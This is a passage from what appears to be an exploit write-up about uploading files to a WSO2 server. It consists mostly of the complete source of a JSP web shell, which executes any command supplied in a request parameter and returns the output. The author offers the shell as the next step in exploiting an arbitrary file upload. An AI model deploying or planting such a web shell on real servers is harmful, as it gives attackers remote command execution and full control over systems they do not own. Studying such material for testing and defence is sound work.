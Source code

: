 <img src="../media/burp_repeater_dark.png" width=800 height=400>

As we said before, we can upload any file on the WSO2 server -- we want a file that can interpret commands: we will try to upload a web shell jsp file with the following content:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```
